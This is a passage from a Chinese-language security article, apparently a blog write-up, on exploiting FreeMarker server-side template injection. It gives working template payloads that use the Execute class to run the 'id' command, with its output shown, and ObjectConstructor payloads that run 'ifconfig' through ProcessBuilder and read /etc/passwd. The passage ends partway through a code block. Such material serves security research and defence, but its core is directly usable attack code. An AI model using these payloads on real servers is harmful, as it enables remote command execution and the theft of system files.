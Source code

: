 一个类的名字出现了：`Execute`。

查看这个类的详情可以发现它能够做我们想要做的事：接收输入并且执行

![pic5](http://drops.javaweb.org/uploads/images/a0741d252dd48fb5e06e44cfc2b7ed20f46f0df2.jpg)

使用它非常简单：

```
<#assign ex="freemarker.template.utility.Execute"?new()> 
${ ex("id") } 

uid=119(tomcat7) gid=127(tomcat7) groups=127(tomcat7)

```

这个payload在后面将会非常有用。

#### 补充：

经过对`TemplateModel`的其他实现类进行研究，发现`ObjectConstructor`类同样很有用，从名字上就可以看出来，这个类是用来构造其他类的对象的，看一下代码就可以明白如何使用了：

![pic6](http://drops.javaweb.org/uploads/images/039435ebc4c05dded0eebff68a3e8cadfafa4f16.jpg)

通过代码可以看到提供类名称和构造函数的参数，就可以利用`ObjectConstructor`类构造我们想要的类，有了这个我们就可以执行任意java代码了，下面给出两个实例，一个是执行命令，另一个是文件读取。

*   命令执行：
    
    ```
    <#assign ob="freemarker.template.utility.ObjectConstructor"?new()> 
    <#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.lang.ProcessBuilder","ifconfig").start().getInputStream())) >        
    
    
    <#list 1..10000 as t>
        <#assign line=br.readLine()!"null">
        <#if line=="null">
            <#break>
        </#if>
        ${line}
        ${"<br>"}
    </#list>
    
    ```
*   文件读取：
    
    ```
    <#assign ob="freemarker.template.utility.ObjectConstructor"?new()> 
    <#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.io.FileInputStream","/etc/passwd"))) >        
    
    
    <#list 1..10000 as t>
        <#assign line=br.readLine()!"null">
        <#if line=="null">
            <#break>
        </#if>
        ${line?html}
        ${"<br>"}
    </#list>
    